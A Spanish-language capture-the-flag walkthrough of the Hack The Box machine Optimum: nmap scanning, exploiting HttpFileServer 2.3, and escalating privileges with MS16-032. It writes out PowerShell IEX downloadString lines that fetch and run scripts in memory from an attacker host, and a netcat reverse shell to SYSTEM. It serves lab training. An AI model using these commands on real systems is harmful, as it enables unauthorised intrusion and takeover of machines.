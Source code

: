 
#  OPTIMUM MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/1.png)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```bash
nmap -p- --open -T5 -v -n 10.10.10.8 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/2.png)

Vamos a realizar una enumeracion de los servicios en los puertos:

```bash
nmap -p -sV -sC 10.10.10.8 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/3.png)

## EXPLOTACION

veamos la pagina web:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/4.png)

no muestra nada interesante, tenemos la version del servidor web **httpfileserver 2.3**, veamos si encontramos algun exploit:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/5.png)

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/6.png)

nos indica que debemos tener un servidor donde pueda descargar el netcat, nos movemos el netcat a nuestro directorio actual:

```bash
mv /usr/share/windows-resources/binaries/nc.exe .
python -m SimpleHTTPServer
```

ademas debemos modificar esta parte del script:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/7.png)

nos colocamos a la escucha segun lo que configuramos y debemos ejecutarlo multiples veces porque en una descarga el netcat y en otra nos da la shell:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/8.png)

podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/9.png)

### PASANDONOS A UNA POWERSHELL

vamos a pasarnos a una powershell porque es mucho mas manejable, ademas vamos a aprender muchas cosas. Vamos a usar el script de nishang **InvokePowerShellTCP** lo tenemos en la carpeta shell de su repositorio: [nishang](https://github.com/samratashok/nishang).

creamos una copia en nuestra carpeta de trabajo, en mi caso tengo el repositorio de nishang en **/opt**:

```bash
cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 .
```

lo editamos y vamos a colocar esta linea en la ultima parte del script:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/10.png)

esto lo hacemos porque vamos a cargar el script en la maquina windows en memoria, de modo que cargara el script y la ultima linea. Esta linea llama a una funcion que esta en el mismo script llamada Invoke-PowerShellTCP que nos da la conexion reversa, ademas configuramos la IP y el puerto.

Vamos a establecer un servidor en python donde esta el script y vamos a descargarlo desde windows ya que tenemos una cmd:

```bash
start /b powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/PS.ps1')
```

ponemos **start /b** para que lo ejecute en segundo plano porque se queda en espera y ya no podemos usar la cmd. Esta es la forma de cargar en memoria un recurso externo mediante powershell.

Estamos a la escucha en netcat y obtenemos nuestra powershell:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/11.png)

algo que debemos verificar a la hora de busacr exploits de kernel mediante wes-ng, watson, windows exploit suggester u otro es que la powershell debe estar en un proceso de la misma arquitectura del sistema operativo, s decir que si el sistema operativo es de 64 bits el proceso que os da la powershell debe ser igual de 64 bits. Esto porque a la hora de buscar exploit de kernel mediante el **systeminfo** no queremos que mnos de falsos positivos.

para comprobar esto hacemos lo siguiente en la powershell:

```bash

#verificar 64 bits

[Environment]::Is64BitOperatingSystem

[Environment]::Is64BitProcess

#verificar 32 bits

[Environment]::Is32BitOperatingSystem

[Environment]::Is32BitProcess
```

si ambos salen **True** es que el proceso es de la misma arquitectura que el sistema operativo y eso es lo que queremos. 

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/12.png)

en nuestro caso no salio igual, para solucionar esto debemos invocar nuevamente el script de nishang pero usando la ruta completa de powershell:

```bash
start /b C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/PS.ps1')
```

si comprobamos ahora si esta igual:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/13.png)

## ELEVACION DE PRIVILEGIOS

Para ver vias potenciales para escalar privilegios usare sherlock.ps1 de rastamouse [sherlock](https://github.com/rasta-mouse/Sherlock). Lo vamos a cargar en memoria pero esta vez desde la powershell, este script tiene una funcion que verifica todas las posibles vulnerabilidades llamada **Find-AllVulns**, como lo vamos a cargar en memoria debemos colocarlo al final del script:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/14.png)

y lo llamamos desde la powershell (montandonos un servidor en python donde esta el script)

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/Sherlock.ps1')
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/15.png)

El que me funciono fue el **MS16-032**, encontre un script en powershell que permite ejecutar comandos como system. [MS16-032](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1)

Nos muestra como debemos usarlo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/16.png)

una vez mas vamos a descargar el script y colocaremos ese ejemplo al final porque lo cargaremos en memoria, aclarar que la funcion se llama **Invoke-MS16032** y no como en el ejemplo **Invoke-MS16-032**

recordemos que ya pasamos el netcat (nc.exe) al equipo en la fase de explotacion y se encuentra en la ruta **C:\\Users\\kostas\\Desktop** asi que me mandare una cmd con netcat como system

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/17.png)

ahora nos colocamos en escucha en ese puerto y cargamos en memoria el script:

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/Invoke-MS16032.ps1')
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/18.png)

obtenemos una reverse shell como system y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/OPTIMUM/images/19.png)

### NOTA

Si vamos a querer una reverse powershell siempre ver que el proceso coincida con la arquitectura del sistma operativo.

Si vamos a cargar un script en memoria lo hacemos con:

```bash
IEX(New-Object Net.WebClient).downloadString('python server')
```

y debemos llamar a la funcion en la ultima linea o lo podemos concatenar de la siguiente manera:

```bash
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16:8000/Invoke-MS16032.ps1'); Invoke-MS16032 -Command "C:\Users\kostas\Desktop\nc.exe -e cmd 10.10.14.16 4646"
```